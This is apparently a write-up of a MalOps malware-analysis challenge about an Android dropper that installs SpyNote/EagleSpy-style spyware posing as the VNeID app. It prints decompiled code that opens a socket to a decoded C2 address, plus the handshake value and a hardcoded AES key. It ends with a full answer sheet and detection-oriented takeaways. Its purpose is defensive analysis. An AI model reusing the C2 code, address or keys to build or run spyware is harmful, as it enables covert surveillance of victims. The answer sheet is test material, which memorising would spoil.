


---

## Task 12 — Persistence permission

**Answer:** `android.permission.RECEIVE_BOOT_COMPLETED`

**Evidence:** declared in the second-stage (`com.found.hentai`) manifest, alongside the full spyware permission block (SMS, call log, contacts, camera, mic, location, call phone, foreground service, etc.):

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
```

**Concept:** `RECEIVE_BOOT_COMPLETED` lets a registered `BroadcastReceiver` catch the `android.intent.action.BOOT_COMPLETED` system broadcast and restart the malware's background service automatically after every device reboot — the standard Android persistence primitive for spyware/RATs that don't rely on a launcher icon being tapped.



---

## Task 13 — Decoded C2 IP and port

**Answer:** `103.253.23.8:7773`

**Investigation path:**
1. Located the network class `SecondarySocket`, which opens a raw TCP `Socket` to a decoded host/port pulled from `initializeService`.
2. Found the encoded constants and the shared decoder method `utilities.eosjvohlvdszzfnoawempbvgtfrhiukwdrdirywuhpeetixbkj45(...)`.
3. Decoded both values as standard Base64.

```java
// SecondarySocket.sendBytes()
Socket socket3 = new Socket(
    InetAddress.getByName(utilities.eosjvo...bkj45(initializeService.ClientHost)),
    Integer.parseInt(utilities.eosjvo...bkj45(initializeService.ClientPort))
);

// initializeService
public static String ClientHost = "MTAzLjI1My4yMy44";
public static String ClientPort = "Nzc3Mw==";
```

```python
>>> import base64
>>> base64.b64decode("MTAzLjI1My4yMy44")
b'103.253.23.8'
>>> base64.b64decode("Nzc3Mw==")
b'7773'
```

| Variable | Encoded (Base64) | Decoded |
|---|---|---|
| `ClientHost` | `MTAzLjI1My4yMy44` | `103.253.23.8` |
| `ClientPort` | `Nzc3Mw==` | `7773` |







---

## Task 14 — Decoded ConnectionKey

**Answer:** `EagleSpy`

```java
public static String ConnectionKey =
    utilities.eosjvohlvdszzfnoawempbvgtfrhiukwdrdirywuhpeetixbkj45("RWFnbGVTcHk=");
```

```python
>>> import base64
>>> base64.b64decode("RWFnbGVTcHk=")
b'EagleSpy'
```

**Concept:** this constant is almost certainly a protocol handshake/identification value the C2 server uses to validate that an incoming connection actually speaks the EagleSpy/SpyNote protocol — distinct from the ConnectionKey is the AES key used for payload encryption (Task 15), which must not be confused with it.



---

## Task 15 — Secret key for JSON/C2 payload encryption

**Answer:** `93b89a273c1fbe59073af7bd9adfa6c0`

**Investigation path:** searched for `SecretKeySpec` / `Cipher.getInstance` / `AES` inside `childapp.apk`'s own package, landing on a dedicated crypto helper class.

```java
package com.found.gybbpabtniopoetzeacrkmlxdhuvgpvnwtahmsaxmtnaltfrgf2.hlshzietuthuztzpsjgswpikkmwdxkiqxbzdseqdoywzyerfhi4;

public class EncryptionCUtils {
    private static final String AES_ALGORITHM = "AES";
    private static final String SECRET_KEY = "93b89a273c1fbe59073af7bd9adfa6c0";

    public static String encrypt(String str) throws Exception {
        SecretKeySpec secretKeySpec = new SecretKeySpec(SECRET_KEY.getBytes(), AES_ALGORITHM);
        Cipher cipher = Cipher.getInstance(AES_ALGORITHM);
        cipher.init(1, secretKeySpec);
        return Base64.encodeToString(cipher.doFinal(str.getBytes()), 0);
    }

    public static String decrypt(String str) throws Exception {
        SecretKeySpec secretKeySpec = new SecretKeySpec(SECRET_KEY.getBytes(), AES_ALGORITHM);
        Cipher cipher = Cipher.getInstance(AES_ALGORITHM);
        cipher.init(2, secretKeySpec);
        return new String(cipher.doFinal(Base64.decode(str, 0)));
    }
}
```

**Concept:** both `encrypt()` and `decrypt()` initialize their `Cipher` with the *same* hardcoded `SECRET_KEY` — this is symmetric AES used to obfuscate the JSON command/data exchanged with the C2 server over the socket from Task 13. It is a separate value from the `ConnectionKey` (Task 14): one authenticates the protocol handshake, the other encrypts the payload body.



---

## Consolidated Answer Sheet

| # | Question | Answer |
|---|---|---|
| 1 | Manifest filename | `AndroidManifest.xml` |
| 2 | Package ID | `com.appd.instll.load` |
| 3 | Declared permissions | `4` |
| 4 | Main activity class | `splash` (`com.appd.instll.splash`) |
| 5 | Installed-app check method | `isAppAvailable` |
| 6 | Package checked | `com.found.hentai` |
| 7 | Targeted languages | `6` (ar, en, pt, ru, tr, zh) |
| 8 | Dynamic permissions | `WRITE_EXTERNAL_STORAGE`, `READ_EXTERNAL_STORAGE` |
| 9 | Payload location | `assets/childapp.apk` |
| 10 | Payload SHA-256 | `799a3d9663bb9c26c3cfe68ed2c8e35c657ac3edf969825dc83f2c5812f96429` |
| 11 | Impersonated app | `VNeID` |
| 12 | Persistence permission | `RECEIVE_BOOT_COMPLETED` |
| 13 | C2 IP:port | `103.253.23.8:7773` |
| 14 | ConnectionKey | `EagleSpy` |
| 15 | JSON AES key | `93b89a273c1fbe59073af7bd9adfa6c0` |

---

## Key Takeaways

- **Two-stage droppers are common in modern Android malware families** (SpyNote/EagleSpy lineage): a low-permission, innocuous-looking installer carries a fully-privileged RAT as an embedded asset, so AV/static scanners inspecting only the outer APK see far fewer dangerous permissions.
- **`PackageInstaller.Session` is the silent-install API** used by droppers to push the second stage without the victim seeing the usual "Do you want to install this app?" prompt chain (on devices/configurations where that's permitted).
- **Impersonating a national ID app (`VNeID`)** is a social-engineering layer — the spyware relies on the victim trusting a government-branded icon and label.
- **Base64 is not encryption** — `ClientHost`, `ClientPort`, and `ConnectionKey` are only *encoded*, trivially reversible, and exist purely to dodge naive string-based static signatures.
- **AES with a hardcoded, static key** (Task 15) is typical of commodity RAT builders — the key is identical across every sample built from the same leaked source, making it a strong IOC for detection/YARA rules.

---

*Writeup prepared from an independent JADX-GUI static analysis session. All 15 answers were submitted and scored on the MalOps platform.*
